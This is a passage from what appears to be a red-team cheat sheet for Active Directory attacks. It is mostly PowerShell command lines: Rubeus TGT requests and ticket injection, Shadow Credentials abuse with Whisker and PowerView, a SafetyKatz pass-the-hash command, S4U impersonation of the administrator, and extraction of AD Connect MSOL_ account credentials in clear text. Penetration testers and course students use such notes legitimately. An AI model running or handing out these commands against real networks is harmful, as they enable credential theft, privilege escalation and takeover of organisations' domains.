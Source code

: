 ```powershell
Rubeus.exe asktgt /user:<parent.local>\Administrator /dc:<dc.parent.local> /certificate:EA.pfx /password:SecretPass@123 /nowrap /ptt
```

**Shadow Credentials:**  
Pre-reqs:  
- AD CS (Key Trust if AD CS is not present).  
- Support for PKINIT and at least one DC with Windows Server 2016 or above.  
- Permissions (GenericWrite/GenericAll) to modify the msDS-KeyCredentialLink attribute of the target object.  

```powershell
# Abuse user object
# Enumerate the permissions with PowerView
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<groupName>"}
# Add the Shadow Credential.
Whisker.exe add /target:<target-user>
# Using PowerView, see if the Shadow Credential is added.
Get-DomainUser -Identity <target-user>

# Request the TGT by leveraging the certificate.
Rubeus.exe asktgt /user:<target-user /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW.... /password:"1OT0qAom3..." /domain:<current.domain.local> /dc:<dc.current.local> /getcredentials /show /nowrap
# Inject the TGT in the current session or use the NTLM hash
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```

```powershell
# Abuse computer object
# Enumerate the permissions with PowerView
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match '<compromisedUser>’}
# Add the Shadow Credentials.
SafetyKatz.exe "sekurlsa::pth /user:<compromisedUser> /domain:<current.domain.local> /aes256:32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f /run:cmd.exe" "exit"
Whisker.exe add /target:<targetMachine$>
# Using PowerView, see if the Shadow Credential is added.
Get-DomainComputer -Identity <targetMachine>

# Request the TGT by leveraging the certificate.
Rubeus.exe asktgt /user:<targetMachine$> /certificate:MIIJ0AIBAzCCCYwGCSqGSIb... /password:"ViGFoZJa..." /domain:<current.domain.local> /dc:<dc.current.domain.local> /getcredentials /show
# Request and Inject the TGS by impersonating the user.
Rubeus.exe s4u /dc:<dc.current.domain.local> /ticket:doIGkDCCBoygAwIBBaEDAgEW... /impersonateuser:administrator /ptt /self /altservice:cifs/<targetMachine>
```

**Azure AD Integration**  

```powershell
# New user MSOL_* is created with Syncronisation rights (DCSync)
# Enumerate the PHS account and server where AD Connect is installed.
# Using PowerView:
Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local
# Using the ActiveDirectory module (this command will show the computer that is running AD Connect):
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl

# With admin where AD Connect is installed we can extract creds of MSOL_ account used by AD Connect in clear-text:
. .\adconnect.ps1 # from CRTE course tools
# then
ADConnect
# Note that the above script's code runs powershell.exe so verbose logs (like transcripts) will be there.
# or with AADInternals https://github.com/Gerenios/AADInternals
```